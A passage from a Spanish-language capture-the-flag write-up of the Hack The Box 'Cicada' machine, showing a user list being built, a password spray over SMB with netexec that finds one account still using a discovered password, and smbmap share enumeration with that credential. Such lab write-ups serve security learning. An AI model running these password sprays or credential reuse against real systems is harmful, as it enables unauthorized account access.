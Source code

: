 ```terminal
/home/kali/Documents/htb/machines/cicada:-$ echo 'Guest@cicada\nsarah.dantelia@cicada\nAdministrator@cicada\njohn.smoulder@cicada\nCICADA-DC$@cicada\ndavid.orelious@cicada\nmichael.wrightson@cicada\nemily.oscars@cicada' > valid_users2.txt
```

Ahora, procedo a realizar un password spray para verificar si alguno de estos usuarios sigue utilizando la contraseña que encontré.

```terminal
/home/kali/Documents/htb/machines/cicada:-$ sudo nxc smb 10.10.11.35 -u valid_users2.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
SMB         10.10.11.35     445    NONE             [*]  x64 (name:) (domain:) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    NONE             [-] \Guest@cicada:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    NONE             [-] \sarah.dantelia@cicada:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    NONE             [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         10.10.11.35     445    NONE             [-] \john.smoulder@cicada:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    NONE             [-] \CICADA-DC$@cicada:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    NONE             [-] \david.orelious@cicada:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE                                
SMB         10.10.11.35     445    NONE             [+] \michael.wrightson@cicada:Cicada$M6Corpb*@Lp#nZp!8                                                  
SMB         10.10.11.35     445    NONE             [-] \emily.oscars@cicada:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
```

![](assets/img/htb-writeup-cicada/cicada2_2.png)

Identifico que el usuario `michael.wrightson` sigue utilizando la contraseña encontrada anteriormente.

---

Verifico los accesos compartidos que el usuario `michael.wrightson` puede leer en el servidor SMB, pero no encuentro informacion util.

```terminal
/home/kali/Documents/htb/machines/cicada:-$ smbmap -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' -H 10.10.11.35
```
